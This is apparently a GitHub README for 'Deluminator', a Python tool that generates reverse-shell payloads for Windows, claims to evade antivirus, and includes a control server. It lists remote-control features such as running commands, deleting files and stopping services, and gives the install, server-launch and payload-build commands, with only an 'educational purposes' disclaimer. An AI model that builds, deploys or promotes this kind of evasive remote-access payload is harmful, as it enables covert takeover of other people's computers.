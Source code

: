 # Deluminator

[![License](https://img.shields.io/badge/License-BSD-red.svg)](https://github.com/t3l3machus/hoaxshell/blob/main/LICENSE.md)
<img src="https://img.shields.io/badge/Maintained%3F-Yes-96c40f">

## Description
This package is a reverse shell generator for Windows systems that uses sockets to establish a connection. It is highly capable of bypassing antivirus software. The package includes a control server and comes with a number of useful features.  

[https://deluminator.hxrshdeep.cloud/]

## Features
- Root shell `Coming soon`
- System information
- Delete files & folder on the host machine. 
- Execute commands on target machine. 
- Upload/Download any type of files. `Coming soon`
- Get all processes running in a system.
- Kill process by name, id etc...
- Enable/Disable windows services.
- Start/Stop windows service.
- Start/Restart windows system.
- Screenshot `Coming soon`

## How to install
```
pip install deluminator
```  

## Setup Server
```
python aurora.py server --help
```
```
python aurora.py server --host <HOST> --port <PORT>
```

## Build Payload
```
python aurora.py payload --help
```
```
python aurora.py payload --name <NAME> --host <HOST> --port <PORT> --time <RECONNECTION TIME>
```

## Disclaimer
This tool is for educational and testing purposes only. Do not use its payloads on hosts without proper authorization. You are responsible for any consequences resulting from its use.
